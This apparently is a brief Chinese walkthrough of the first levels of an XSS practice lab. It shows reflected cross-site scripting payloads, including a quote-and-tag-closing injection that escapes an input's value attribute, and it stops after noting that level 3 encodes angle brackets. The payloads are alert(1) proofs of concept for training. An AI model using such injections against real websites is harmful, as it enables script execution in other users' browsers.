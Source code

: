 

### 1.

```
?name=<script>alert(1)</script>
```

熟悉



### 2.

进行同样的测试

输入框输入

```
<script>alert(1)</script>
```



```
?keyword=<script>alert(1)</script>&submit=搜索
```



F12观察到某个value变成了

```
<input name=keyword  value="<script>alert(1)</script>">
```



所以构造闭合，来让js代码执行



前面加上">直接让标签闭合即可

```
"><script>alert(1)</script>
```



### 3.

同样的

输入框输入

```
<script>alert(1)</script>
```



F12查看发现

```
<input name=keyword  value='&lt;script&gt;alert(1)&lt;/script&gt;'>
```
